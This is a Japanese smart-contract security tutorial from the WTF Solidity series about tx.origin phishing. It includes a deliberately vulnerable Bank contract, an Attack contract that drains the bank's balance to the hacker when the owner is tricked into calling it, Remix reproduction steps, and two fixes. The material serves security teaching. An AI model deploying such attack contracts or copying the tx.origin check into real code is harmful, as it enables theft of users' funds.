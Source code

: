 ```yaml
---
title: S12. tx.originフィッシング攻撃
tags:
  - solidity
  - security
  - tx.origin
---
```


# WTF Solidity 合約セキュリティ: S12. tx.originフィッシング攻撃

最近、Solidityを再学習し、詳細を固めるために「WTF Solidity 合約セキュリティ」を書いています。初心者向けのチュートリアル（プログラミング上級者は他のチュートリアルを参照してください）で、毎週1-3レッスンを更新します。

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

コミュニティ: [Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[公式サイト wtf.academy](https://wtf.academy)

すべてのコードとチュートリアルはgithubで公開: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

このレッスンでは、スマートコントラクトの`tx.origin`フィッシング攻撃と予防方法を紹介します。

## `tx.origin`フィッシング攻撃

筆者が中学生の頃、ゲームを遊ぶのが特に好きでしたが、プロジェクト方が未成年者の依存を防ぐため、身分証番号で18歳以上であることを示すプレイヤーのみが依存防止制限を受けないルールを設けていました。どうすればよいでしょうか？後に筆者は親の身分証番号を使って年齢認証を行い、依存防止システムを迂回することに成功しました。この事例は`tx.origin`フィッシング攻撃と同工異曲の妙があります。

`solidity`では、`tx.origin`を使用してトランザクションを開始した元のアドレスを取得できます。これは`msg.sender`と非常に似ており、以下の例でそれらの違いを区別します。

ユーザーAがBコントラクトを呼び出し、さらにBコントラクトを通じてCコントラクトを呼び出した場合、Cコントラクトから見ると、`msg.sender`はBコントラクトで、`tx.origin`はユーザーAです。`call`の仕組みを理解していない場合は、[WTF Solidity極簡チュートリアル第22講：Call](https://github.com/AmazingAng/WTF-Solidity/blob/main/22_Call/readme.md)をお読みください。

![](./img/S12_1.jpg)

したがって、銀行コントラクトが`tx.origin`を使って身元認証を行っている場合、ハッカーは攻撃コントラクトをデプロイしてから銀行コントラクトのオーナーを誘導して呼び出すことができます。`msg.sender`は攻撃コントラクトアドレスですが、`tx.origin`は銀行コントラクトオーナーアドレスなので、転送が成功する可能性があります。

## 脆弱性コントラクトの例

### 銀行コントラクト

まず銀行コントラクトを見てみましょう。これは非常にシンプルで、コントラクトの所有者を記録する`owner`状態変数、コンストラクタと1つの`public`関数を含みます：

- コンストラクタ: コントラクト作成時に`owner`変数に値を代入します。
- `transfer()`: この関数は`_to`と`_amount`の2つのパラメータを受け取り、まず`tx.origin == owner`をチェックし、確認後に`_to`に`_amount`数量のETHを転送します。**注意：この関数はフィッシング攻撃のリスクがあります！**

```solidity
contract Bank {
    address public owner;//コントラクトの所有者を記録

    //コントラクト作成時にowner変数に値を代入
    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        //メッセージソースをチェック ！！！ ownerが誘導されてこの関数を呼び出す可能性があり、フィッシングリスクがある！
        require(tx.origin == owner, "Not owner");
        //ETHを転送
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### 攻撃コントラクト

次に攻撃コントラクトです。その攻撃ロジックは非常にシンプルで、`attack()`関数を構築してフィッシングを行い、銀行コントラクトオーナーの残高をハッカーに転送します。`hacker`と`bank`の2つの状態変数があり、それぞれハッカーアドレスと攻撃対象の銀行コントラクトアドレスを記録します。

2つの関数を含みます：

- コンストラクタ: `bank`コントラクトアドレスを初期化します。
- `attack()`: 攻撃関数で、この関数は銀行コントラクトの`owner`アドレスによって呼び出される必要があります。`owner`が攻撃コントラクトを呼び出し、攻撃コントラクトが銀行コントラクトの`transfer()`関数を呼び出し、`tx.origin == owner`を確認後、銀行コントラクト内の残高をすべてハッカーアドレスに転送します。

```solidity
contract Attack {
    // 受益者アドレス
    address payable public hacker;
    // Bankコントラクトアドレス
    Bank bank;

    constructor(Bank _bank) {
        //address型の_bankを強制的にBank型に変換
        bank = Bank(_bank);
        //受益者アドレスをデプロイヤーアドレスに代入
        hacker = payable(msg.sender);
    }

    function attack() public {
        //bankコントラクトのownerを誘導して呼び出し、bankコントラクト内の残高をすべてハッカーアドレスに転送
        bank.transfer(hacker, address(bank).balance);
    }
}
```

## `Remix`での再現

**1.** まず`value`を10ETHに設定し、`Bank`コントラクトをデプロイします。オーナーアドレス`owner`がデプロイコントラクトアドレスに初期化されます。

![](./img/S12-2.jpg)

**2.** 別のウォレットにハッカーウォレットとして切り替え、攻撃対象の銀行コントラクトアドレスを入力し、`Attack`コントラクトをデプロイします。ハッカーアドレス`hacker`がデプロイコントラクトアドレスに初期化されます。

![](./img/S12-3.jpg)

**3.** `owner`アドレスに戻ります。この時、私たちは誘導されて`Attack`コントラクトの`attack()`関数を呼び出しました。`Bank`コントラクトの残高が空になり、同時にハッカーアドレスに10ETHが追加されたことが確認できます。

![](./img/S12-4.jpg)

## 予防方法

現在、`tx.origin`フィッシング攻撃を予防する主な方法は2つあります。

### 1. `msg.sender`を`tx.origin`の代わりに使用

`msg.sender`は現在のコントラクトを直接呼び出した呼び出し送信者アドレスを取得できます。`msg.sender`の検証により、呼び出しプロセス全体で外部攻撃コントラクトが現在のコントラクトを呼び出すことを回避できます。

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{value: _amount}("");
  require(sent, "Failed to send Ether");
}
```

### 2. `tx.origin == msg.sender`の検証

`tx.origin`を使用する必要がある場合は、`tx.origin`が`msg.sender`と等しいかどうかを検証することもできます。これにより、呼び出しプロセス全体で外部攻撃コントラクトが現在のコントラクトを呼び出すことを回避できます。ただし、副作用として他のコントラクトがこの関数を呼び出せなくなります。

```solidity
    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");
        require(tx.origin == msg.sender, "can't call by external contract");
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
```

## まとめ

このレッスンでは、スマートコントラクトの`tx.origin`フィッシング攻撃を紹介しました。現在、2つの方法で予防できます：1つは`msg.sender`を`tx.origin`の代わりに使用すること、もう1つは同時に`tx.origin == msg.sender`を検証することです。前者の方法を使用することを推奨します。後者は他のコントラクトからのすべての呼び出しを拒否するためです。